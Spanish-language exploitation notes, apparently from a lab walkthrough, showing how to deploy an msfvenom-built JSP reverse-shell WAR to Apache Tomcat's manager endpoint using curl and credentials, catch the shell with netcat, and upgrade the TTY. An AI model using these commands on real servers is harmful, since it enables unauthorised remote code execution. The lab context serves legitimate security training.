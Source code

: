 ------------------------
# APACHE TOMCAT 9 EXPLOTATION
----------------

- Vamos a intentar desplegar un archivo `WAR`, solo podremos desplegarlo si tenemos suficientes privilegios (admin, manager o manager-script)

```bash
curl --upload-file monshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?=path/pwned"
```

- Creamos el `monshell.war` primero con `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f war -o monshell.war
```

```bash
curl --upload-file monshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/pwned"
OK - Deployed application at context path [/pwned]
```

Como vemos se sube nuestra `app` correctamente, nos ponemos en escucha por el puerto indicado que en este caso es el `443` para recibir la `reverse-shell` y por ultimo lo que tenemos que hacer es acceder a la ruta `http://10.10.10.194:8080/pwned` y recibiremos la shell automáticamente.

```bash
nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.194 57080
whoami
tomcat
```

------------------
# TRATAMIENTO DE LA TTY
-----------------

```bash
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 443
stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
stty size -> (ver el tamaño de nuestra tty en nuestra terminal atacante)
tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ stty rows 38 columns 183
```

